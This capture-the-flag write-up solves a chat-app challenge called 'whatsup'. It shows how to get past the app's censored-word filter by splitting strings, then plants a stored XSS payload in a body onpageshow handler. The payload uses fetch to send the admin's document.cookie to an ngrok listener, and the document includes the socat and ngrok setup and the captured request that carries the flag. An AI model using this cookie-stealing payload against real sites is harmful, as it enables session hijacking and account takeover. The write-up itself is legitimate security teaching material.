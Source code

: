 # whatsup

## What it is

It is a chat webapp, you can send messages to other users.

Some words are censored (replaced by ```*```), they will be replaced wherever they appear in the message.\
For example ```console``` will become ```***sole```.
Some of the words we found:
- con
- ass
- fuck
- shit
- bite
- merde
- cul
- hell

The max input size is 255 char (a bit less actually).

## Solution

We can put code in the ```onpageshow``` event of the body ([source](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpageshow).

example:
```html
<body onpageshow="alert('Hey')">
```

To use function/objects like ```console``` that contain censored words we can use a simple trick:
```html
<body onpageshow="globalThis['co'+'nsole'].log('Hey')">
```

We need our injected code to send us the admin's cookie when the admin loads their messages.

### Setting up the server

First we need a server with that can be reached by the admin's client, here is a simple solution

Use socat to create a tcp socket, we could use a real http server but it doesn't really matter.
```bash
$ socat TCP-LISTEN:9000,fork stdout
```

Then to make it available online we can use [ngrok](https://ngrok.com/):
```bash
$ ngrok http 9000

Session Status                online                                                                                
Account                       User (Plan: Free)                                                                   
Version                       3.1.0                                                                                 
Region                        Europe (eu)                                                                           
Latency                       42ms                                                                                  
Web Interface                 http://127.0.0.1:4040                                                                 
Forwarding                    https://7097-163-5-23-68.eu.ngrok.io -> http://localhost:9000
```
Notice the ```Forwarding``` section, ```https://7097-163-5-23-68.eu.ngrok.io``` is where we'll want the admin to make requests.

### XSS command

We can use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) to make http requests, the cookie is in ```document.cookie```.
```html
<body onpageshow="fetch('https://7097-163-5-23-68.eu.ngrok.io', {method: 'post', body: document.cookie})">
```

A first request will arrive immediately, that's the one from our client. Within a minute a second request will arrive from the admin.

Using socat it should look something like this:
```
POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Content-Length: 0
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Cache-Control: no-cache
Content-Type: text/plain;charset=UTF-8
Origin: https://whatsup.secu-web.blackfoot.dev
Pragma: no-cache
Referer: https://whatsup.secu-web.blackfoot.dev/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers
X-Forwarded-For: 163.5.23.68
X-Forwarded-Proto: https

POST / HTTP/1.1
Host: 7097-163-5-23-68.eu.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3882.0 Safari/537.36
Content-Length: 36
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Origin: http://whatsup:8000
Referer: http://whatsup:8000/admin
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
X-Forwarded-For: 35.242.202.31
X-Forwarded-Proto: https

flag=BFS{XSS_M0R3_L!K3_FR33_C00K!35}
```

flag: ```BFS{XSS_M0R3_L!K3_FR33_C00K!35}```
